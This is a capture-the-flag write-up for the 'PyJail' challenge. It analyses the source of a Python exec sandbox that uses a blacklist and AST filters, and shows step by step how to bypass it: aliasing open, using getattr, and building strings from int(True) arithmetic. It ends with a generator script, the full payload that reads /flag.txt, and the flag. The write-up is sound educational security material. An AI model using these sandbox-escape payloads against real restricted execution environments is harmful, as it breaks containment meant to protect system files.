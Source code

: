 # PyJail

Although this problem has been solved by [my teammate](https://github.com/daffainfo/ctf-writeup/blob/main/1337UP%20LIVE%20CTF/PyJail/README.md) first, I would like to create this writeup anyway due to seemingly unorthodox solution.

## Problem
Can you break out of this python jail? 🐍

P.S. flag is at /flag.txt

Author: 0xM4hm0ud

jail.ctf.intigriti.io 1337


## Solution
### Source Code Analysis
Given the source code of the service :
```py
import ast
import unicodedata

blacklist = "0123456789[]\"\'._"
check = lambda x: any(w in blacklist for w in x)

def normalize_code(code):
    return unicodedata.normalize('NFKC', code)

def execute_code(code):
    try:
        normalized_code = normalize_code(code)
        parsed = ast.parse(code)
        for node in ast.walk(parsed):
            if isinstance(node, ast.Call):
                if isinstance(node.func, ast.Name):
                    if node.func.id in ("os","system","eval","exec","input","open"):
                        return "Access denied!"
            elif isinstance(node, ast.Import):
                return "No imports for you!"
        if check(code):
            return "Hey, no hacking!"
        else:
            return exec(normalized_code, {}, {})
    except Exception as e:
        return str(e)

if __name__ == "__main__":
    while True:
        user_code = input(">> ")
        if user_code.lower() == 'quit':
            break
        result = execute_code(user_code)
        print("Result:", result)
``` 

Based on the source code, we can understand some rules of this service :
1. No number, quotes (both single and double), dots, brackets, and underscores allowed
2. No module importing
3. No function calling that has the ID "os", "system", "eval", "exec", "input", and "open" (Function ID determined by `ast` module) 
4. Input is executed via `exec` with empty environment
5. Before input is processed, inputs are being normalized first (so no fancy characters allowed)

### Restriction Bypasses
First, given the jail used `exec`, we could execute more than one command using semicolon. Hence, this code is valid and executable fully in `exec` command.
```py
x = 1; x += 1; print(x)
```

Next, we found out that assigning a restricted function to a variable (remember, everything is an object in Python) isn't being detected as function calling, and calling that function also isn't returning the `Access Denied!` error, indicating that the function ID detection in (3) could be bypassed with :
```py
x = open; x("/flag.txt").read()
```

However, we can't still execute the `read()` due to restriction in dot character usage. However, `getattr` comes in handy to get the properties of an object (in this case the `read` function), and execute it.
```py
x = open; getattr(x("/flag.txt"), "read")()
```

### No String... No Number...
This is almost done, except of two small annoying restrictions; no quotes to form a string, and no numbers to build the string with `chr()` for example. However, we notice this behavior on Python :
```py
int(True) # returns 1
int(False) # returns 0
```

We can see that it's possible to create a number using `int()` function to a boolean value. After that, basically we could create every possible number from 0 - 9.
```py
nol = int(False) 			# 0
satu = int(True) 			# 1
dua = satu + satu			# 2
tiga = satu + dua			# 3
empat = satu + tiga			# 4
lima = satu + empat			# 5
enam = satu + lima			# 6
tujuh = satu + enam			# 7
delapan = satu + tujuh		# 8
sembilan = satu + delapan		# 9
```

Flatten them onto one line with semicolons :
```py
nol=int(False);satu=int(True);dua=satu+satu;tiga=satu+dua;empat=satu+tiga;lima=satu+empat;enam=satu+lima;tujuh=satu+enam;delapan=satu+tujuh;sembilan=satu+delapan;
```

After this, we could just add the numbers away to form a number, and then create a character (and eventually a string) with `chr()`! However, instead of adding it one by one, we combine the number as strings to be concatenated, and then convert it to number again and finally hit it with `chr()`. 
```py
str(sembilan) + str(tujuh)
# '97'

int(str(sembilan) + str(tujuh))
# 97

chr(int(str(sembilan) + str(tujuh)))
# 'a'
```

Since creating the payload to return a string character-by-character could be quite tiring, we created the script to automate the process.
```py
table = {
	"0": "nol",
	"1": "satu",
	"2": "dua",
	"3": "tiga",
	"4": "empat",
	"5": "lima",
	"6": "enam",
	"7": "tujuh",
	"8": "delapan",
	"9": "sembilan",
}

def generate(string):
	res = ""
	rest = []
	for s in string:
		s = str(ord(s))
		tmp = []
		for x in s:
			tmp.append(table[x])
		rest.append("+".join([f"str({_})" for _ in tmp]))
	res = ("+".join([f"chr(int({_}))" for _ in rest]))
	return res

print(f"nol=int(False);satu=int(True);dua=satu+satu;tiga=satu+dua;empat=satu+tiga;lima=satu+empat;enam=satu+lima;tujuh=satu+enam;delapan=satu+tujuh;sembilan=satu+delapan;x=open; print(getattr(x({generate('/flag.txt')}), {generate('read')})())")
```

Running the script, we got :
```py
nol=int(False);satu=int(True);dua=satu+satu;tiga=satu+dua;empat=satu+tiga;lima=satu+empat;enam=satu+lima;tujuh=satu+enam;delapan=satu+tujuh;sembilan=satu+delapan;x=open; print(getattr(x(chr(int(str(empat)+str(tujuh)))+chr(int(str(satu)+str(nol)+str(dua)))+chr(int(str(satu)+str(nol)+str(delapan)))+chr(int(str(sembilan)+str(tujuh)))+chr(int(str(satu)+str(nol)+str(tiga)))+chr(int(str(empat)+str(enam)))+chr(int(str(satu)+str(satu)+str(enam)))+chr(int(str(satu)+str(dua)+str(nol)))+chr(int(str(satu)+str(satu)+str(enam)))), chr(int(str(satu)+str(satu)+str(empat)))+chr(int(str(satu)+str(nol)+str(satu)))+chr(int(str(sembilan)+str(tujuh)))+chr(int(str(satu)+str(nol)+str(nol))))())
```

Copying to the jail terminal and we got the flag.
![flag](images/1.png)

<!-- this problem could be solved simply by breakpoint(), dumb me but ok i guess -->

### Flag
`INTIGRITI{Br4ak_br4ak_Br34kp01nt_ftw}` 